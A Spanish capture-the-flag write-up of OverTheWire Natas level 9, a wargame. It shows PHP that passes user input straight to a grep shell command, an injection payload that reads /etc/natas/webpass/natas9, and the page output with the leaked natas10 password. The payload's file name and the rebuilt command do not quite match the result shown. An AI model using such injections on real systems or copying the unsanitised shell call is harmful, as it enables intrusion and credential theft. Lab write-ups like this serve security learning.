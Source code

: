 ```yaml
---
title: Natas-09
published: true
---
```


```
Url del reto: http://natas9.natas.labs.overthewire.org/index.php
login:natas9
 pass:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

Hay que introducir en el campo una cadena que en la salida nos muestre la contraseña del siguiente nivel.
El código fuente que nos muestra para estudiarlo es el siguiente:

```php

<?php

$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>

```

Como se ve en el código, el comando que ejecuta al final es 'grep -i $key dictionary.txt'. Asi que para saltarnos esto podemos usar

```

; cat /etc/natas/webpass/natas9

```

Quedando el comando:

```
grep -i ; cat /etc/natas/webpass/natas9

```

La salida del html es el siguiente:

```html

<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

African
Africans
Allah
Allah's
American
Americanism
Americanism's
...
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

```    
natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

[Volver al archivo](archive)
